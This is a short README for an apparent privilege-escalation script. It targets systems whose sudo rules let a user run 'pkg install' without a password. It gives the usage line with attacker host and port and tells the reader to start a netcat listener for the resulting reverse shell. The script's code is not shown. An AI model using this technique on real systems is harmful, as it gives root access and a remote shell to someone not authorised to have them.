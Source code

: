 # pkg_privilege_escalation_script
shellscript for pkg_privilege_escalation

sudo -l

->
    
    (ALL) NOPASSWD: /usr/sbin/pkg update
    
    (ALL) NOPASSWD: /usr/sbin/pkg install *

if get situation like a above, when pressed "sudo -l"

then exploitable in this script,,, maybe


usage:
    
    ./pkg_priv_esc.sh <lhost> <lport>
    
 
 Don't forget "chmod +x" before execute 


And open other terminal and listenning netcat for reverse_shell
